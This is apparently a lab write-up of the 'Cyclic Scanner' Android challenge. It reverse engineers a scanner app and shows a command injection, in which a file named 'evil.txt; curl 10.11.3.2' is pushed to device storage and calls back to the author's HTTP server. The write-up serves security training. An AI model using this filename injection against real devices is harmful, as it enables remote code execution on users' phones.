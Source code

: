 ```yaml
---
author: pl4int3xt
layout: post
title: Lab - Cyclic Scanner
date: '2024-07-04'
description: "Welcome to the Cyclic Scanner Challenge! This lab is designed to mimic real-world scenarios where vulnerabilities within Android services lead to exploitable situations. Participants will have the opportunity to exploit these vulnerabilities to achieve remote code execution (RCE) on an Android device."
cover: featured.png 
useRelativeCover: true
categories: [Mobile Hacking Lab]
---
```


## Introduction
Welcome to the Cyclic Scanner Challenge! This lab is designed to mimic real-world scenarios where vulnerabilities within Android services lead to exploitable situations. Participants will have the opportunity to exploit these vulnerabilities to achieve remote code execution (RCE) on an Android device.
## Objective
* Exploit a vulnerability inherent within an Android service to achieve remote code execution.

## Skills Required

* Mastery in reverse engineering Android applications.
* In-depth understanding of Android application architecture, especially Android services, and their inherent vulnerabilities.


The app uses a switch to start the scanner which is a foreground service

![img-description](1.png)

Let's download vpn file and use adb to connect to the lab

```shell
pl4int3xt@archlinux ~> adb connect 10.11.1.1:5001 
connected to 10.11.1.1:5001
```

Let's locate the third party apps installed with adb 

```shell
pl4int3xt@archlinux ~> adb shell pm list packages -3
package:com.mobilehackinglab.cyclicscanner
```

Let's get the path of the cyclicscanner app

```shell
pl4int3xt@archlinux ~> adb shell pm path com.mobilehackinglab.cyclicscanner
package:/data/app/~~qM4I86KbSswb6BplSzhL0A==/com.mobilehackinglab.cyclicscanner-rtyKTMCcoKLT7WV1i1hWWA==/base.apk
```

Let's pull the app for static analysis with jadxgui

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb pull /data/app/~~qM4I86KbSswb6BplSzhL0A==/com.mobilehackinglab.cyclicscanner-rtyKTMCcoKLT7WV1i1hWWA==/base.apk
```

In the `AndroidManfest.xml` file the `MainActivity` is exported and we have a `ScanService` which is not exported.

```xml
<activity
    android:name="com.mobilehackinglab.cyclicscanner.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
<service
    android:name="com.mobilehackinglab.cyclicscanner.scanner.ScanService"
    android:exported="false"/>
```

The application also needs external storage permissions for reading and writing files across shared storage and a foreground service permission which perform operations that are noticeable to the user and must display a notification to the user.

```xml
<uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>
```

In the `MainActivity` we have `setupSwitch` function that uses the switch to start `ScanService.class` using an `Intent`.

```java
public static final void setupSwitch$lambda$3(MainActivity this$0, CompoundButton compoundButton, boolean isChecked) {
    Intrinsics.checkNotNullParameter(this$0, "this$0");
    if (isChecked) {
        Toast.makeText(this$0, "Scan service started, your device will be scanned regularly.", 0).show();
        this$0.startForegroundService(new Intent(this$0, (Class<?>) ScanService.class));
        return;
    }
    Toast.makeText(this$0, "Scan service cannot be stopped, this is for your own safety!", 0).show();
    ActivityMainBinding activityMainBinding = this$0.binding;
    if (activityMainBinding == null) {
        Intrinsics.throwUninitializedPropertyAccessException("binding");
        activityMainBinding = null;
    }
    activityMainBinding.serviceSwitch.setChecked(true);
}

private final void startService() {
    Toast.makeText(this, "Scan service started", 0).show();
    startForegroundService(new Intent(this, (Class<?>) ScanService.class));
}
```

Further analyzing the `ScanService` class the `handleMessage` function will tranverse through all files and call `ScanEngine.INSTANCE.scanFile(file)` to check is the files are infected or safe.

```java
@Override // android.os.Handler
public void handleMessage(Message msg) {
    Intrinsics.checkNotNullParameter(msg, "msg");
    try {
        System.out.println((Object) "starting file scan...");
        File externalStorageDirectory = Environment.getExternalStorageDirectory();
        Intrinsics.checkNotNullExpressionValue(externalStorageDirectory, "getExternalStorageDirectory(...)");
        Sequence $this$forEach$iv = FilesKt.walk$default(externalStorageDirectory, null, 1, null);
        for (Object element$iv : $this$forEach$iv) {
            File file = (File) element$iv;
            if (file.canRead() && file.isFile()) {
                System.out.print((Object) (file.getAbsolutePath() + "..."));
                boolean safe = ScanEngine.INSTANCE.scanFile(file);
                System.out.println((Object) (safe ? "SAFE" : "INFECTED"));
            }
        }
        System.out.println((Object) "finished file scan!");
    } catch (InterruptedException e) {
        Thread.currentThread().interrupt();
    }
    Message $this$handleMessage_u24lambda_u241 = obtainMessage();
    $this$handleMessage_u24lambda_u241.arg1 = msg.arg1;
    sendMessageDelayed($this$handleMessage_u24lambda_u241, ScanService.SCAN_INTERVAL);
}
```

Looking at the `ScanEngine` class we analyze the `scanFile` that takes in a `file` as a parameter. The file name is directly concatenated to the `command` variable without any checks `String command = "toybox sha1sum " + file.getAbsolutePath()`. This is a `command injection` flaw. All we need to do is to create a file with a command name as the filename. 

```java
public final boolean scanFile(File file) {
    Intrinsics.checkNotNullParameter(file, "file");
    try {
        String command = "toybox sha1sum " + file.getAbsolutePath();
        Process process = new ProcessBuilder(new String[0]).command("sh", "-c", command).directory(Environment.getExternalStorageDirectory()).redirectErrorStream(true).start();
        InputStream inputStream = process.getInputStream();
        Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
        Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
        BufferedReader bufferedReader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
        try {
            BufferedReader reader = bufferedReader;
            String output = reader.readLine();
            Intrinsics.checkNotNull(output);
            Object fileHash = StringsKt.substringBefore$default(output, "  ", (String) null, 2, (Object) null);
            Unit unit = Unit.INSTANCE;
            Closeable.closeFinally(bufferedReader, null);
            return !ScanEngine.KNOWN_MALWARE_SAMPLES.containsValue(fileHash);
        } finally {
        }
    } catch (Exception e) {
        e.printStackTrace();
        return false;
    }
}
```

Let's start a python server 
```shell
pl4int3xt@archlinux ~/D/mobile-hacking [1]> sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:80/) ...
```

Let's check our ip with the following command

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> ip a s tap0
```

Next we need to create a file and name it `evil.txt; curl 10.11.3.2` with our `tap0` ip.

Let's create the file in our machine

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> touch "evil.txt; curl 10.11.3.2"
```

Next we need to push it in the device storage

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb push "evil.txt; curl 10.11.3.2" /storage/emulated/0/
```

Launching the scanner app we get this meaning the command injection worked successfully

```shell
10.11.3.2 - - [03/Jul/2024 14:33:18] "GET / HTTP/1.1" 200 -
```

